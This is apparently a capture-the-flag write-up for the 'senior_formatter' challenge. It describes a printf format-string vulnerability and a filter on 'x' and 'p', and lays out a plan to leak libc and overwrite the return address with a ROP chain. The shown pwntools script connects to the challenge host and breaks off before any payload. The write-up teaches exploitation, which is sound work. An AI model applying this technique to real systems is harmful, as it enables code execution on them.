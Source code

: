 The `locate_the_boss` function takes our input with read(0, buf, 0x32uLL) and then prints our input again with printf without a format string specifier.

#### alert_bad_characters

```c
char *__fastcall alert_bad_characters(const char *a1)
{
  char *result; // rax

  if ( strchr(a1, 'p') || (result = strchr(a1, 'x')) != 0LL )
  {
    puts("you shall not pass!");
    exit(1);
  }
  return result;
}
```

The `alert_bad_characters` function checks the input string and does not allow it to contain the characters 'x' or 'p'. If either of these characters is found in the input, the function prints 'you shall not pass!' and exits the program.

Since the binary has Position Independent Executable (PIE) enabled and Full Relro, we cannot overwrite the Global Offset Entry. However, we can overwrite the return address.

Firstly, we must obtain the libc's base address and the return address. Once we have obtained these addresses, we can build a ROP chain on the return address by using format string write to achieve arbitrary code execution.

#### POC

```python
#!/usr/bin/python
from pwn import *
exe = './senior_formatter'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 52.59.124.14 5032".split(" ")[1:3]
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()
libc = ELF('./libc6_2.35-0ubuntu3.6_amd64.so', checksec = 0)

def locate_boss(p: bytes):
	sla(b'>> ', b'2')
	sla(b'>> ', p)
	rud(b'input:\n')

```